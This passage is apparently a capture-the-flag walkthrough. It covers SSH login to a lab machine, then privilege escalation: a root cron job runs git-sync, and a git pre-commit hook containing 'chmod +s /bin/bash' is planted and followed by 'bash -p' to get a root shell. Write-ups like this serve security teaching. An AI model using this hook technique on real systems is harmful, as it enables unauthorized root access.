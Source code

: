 ```vim
ssh dev01@<IP> -i id_rsa
```

The user flag can be found in your home in `user.txt`

## Priv-Esc

linPEAS doesn't reveal anything special, however, pspy reveals that every minute there is a git-sync script being run by root. The git-sync command includes this:

```vim
#!/bin/bash

cd /home/dev01/

if ! git status --porcelain; then
    echo "No changes"
else
    day=$(date +'%Y-%m-%d')
    echo "Changes detected, pushing.."
    git add .
    git commit -m "Backup for ${day}"
    git push origin main
fi
```

If we look into GTFObins(https://gtfobins.github.io/gtfobins/git/#shell), we see that priv-esc is possible via Github Hooks (making a pre-commit hook which is a script that will run before the `git commit` command).

Run the following command and wait for the git-sync script to be run again:

```vim
echo "chmod +s /bin/bash" > /home/dev01/.git/hooks/pre-commit
```

Once /bin/bash has updated permissions, run `bash -p` and you will have root access.

Root flag is in `/root/root.txt`
